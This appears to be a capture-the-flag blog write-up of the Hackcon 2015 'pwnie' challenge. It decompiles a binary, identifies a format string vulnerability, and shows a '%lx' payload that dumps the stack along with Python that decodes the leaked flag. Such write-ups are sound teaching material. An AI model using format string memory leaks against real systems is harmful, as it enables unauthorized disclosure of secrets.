 ```yaml
---
layout: post
title:  "Hackcon 2015: Did you mean"
categories: hackcon2015
tags: pwnage
---
```


> Category: *Pwnage* - Points: *50*
>
> Description: *Pwnie*

The challenge provides us with the file [`pwnie`]({{ site.url }}/assets/hackcon2015/pwnie) and an ip and address for a webservice.

    $ file pwnie
    pwnie: ELF 64-bit LSB  executable, x86-64, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=b87bef02278df740b6c0011e989f39b08ccfc998, not stripped

Let's try to run it:

    $ ./pwnie
    No!

Ok, sorry. Let's check the output of `strings`. The only interesting ones are:

    flag.txt
    The flag's right!
    Did you say:

So it seems that the file `flag.txt` is involved. Let's create it with content: `ABCDEFGHIJKLMNOP` and run the program again. Now the program waits for our input and if we put again `ABCDEFGHIJKLMOP` this happens:

    $ ./pwnie
    ABCDEFGHIJKLMNOP
    The flag's right!

Ok, we have to produce some interesting payload, let's start IDA and decompile the `main`. We also added some comment in the code to highlight the important parts.

{% highlight c %}
...
  v3 = fopen("flag.txt", "r");
  if ( v3 )
  {
    fgets((char *)&v7, 100, v3);  // v7 is the content of v3 (flag.txt)
    fgets(&s, 100, stdin);        // s is the string from the stdin
    v4 = strncmp(&s, (const char *)&v7, 0xAuLL); 
    if ( v4 )   // if they do not match
    {
      v4 = 0;
      puts("Did you say: ");
      fflush(_bss_start);
      __printf_chk(1LL, &s);      // print the user input
      fflush(_bss_start);
    }
    else
    {
      puts("The flag's right!");  // the flag is correct
      fflush(_bss_start);
    }
  }
  else                            // the file does not exist
  {
    v4 = -1;
    puts("No!");
    fflush(_bss_start);
  }
  v5 = *MK_FP(__FS__, 40LL) ^ v9;
  return v4;
}
{% endhighlight %}

There is a *string format exploit* in the line:

    __printf_chk(1LL, &s);

The user input is treated as format string. So we can exploit this to dump the stack and get our flag. Since the program is in 64 bits we need to use the placeholder `%lx` to print a whole memory block. The `fgets` is told to copy 100 bytes, so we can join 33 times `%lx` in order to get more data from the stack.

    $ ./pwnie
    %lx%lx%lx%lx%lx%lx%lx%lx%lx%lx%lx%lx%lx%lx%lx%lx%lx%lx%lx%lx%lx%lx%lx%lx%lx%lx%lx%lx%lx%lx%lx%lx%lx

The output is:

> 07f7ef00e68707f7ef05c374004847464544434241504f4e4d4c4b4a49a00007f7ef05e45207fff414a69807fff414a6970f63d4e2e40043625786c25ffffffff786c25786c25786c6c25786c25786c2525786c25786c2578786c25786c25786c6c25786c25786c2525786c25786c2578786c25786c25786c6c25786c25786c2525786c25786c2578786c25786c25786c6c25786c25786c25786c25786c257839cc7d2e1411990007f7ef001cec50

We can easily spot the part that holds the content of the file stored in little endian:

    4847464544434241504f4e4d4c4b4a49

So the interesting part comes after 26 bits. We can use python to convert the stack into readable data:

{% highlight python %}
data = "07f7ef00e68707f7ef05c374004847464544434241504f4e4d4c4b4a49a00007f7ef05e45207fff414a69807fff414a6970f63d4e2e40043625786c25ffffffff786c25786c25786c6c25786c25786c2525786c25786c2578786c25786c25786c6c25786c25786c2525786c25786c2578786c25786c25786c6c25786c25786c2525786c25786c2578786c25786c25786c6c25786c25786c25786c25786c257839cc7d2e1411990007f7ef001cec50"

for i in xrange(26, len(data), 16):
    print repr(data[i:i+16].decode('hex')[::-1])
{% endhighlight %}

The result is:

    'ABCDEFGH'
    'IJKLMNOP'
    'R\xe4\x05\xef\xf7\x07\x00\xa0'
    '\xff\x07\x98\xa6\x14\xf4\xff\x07'

We can use the same technique on the webservice and get the flag: `FORMAT(STR)`.

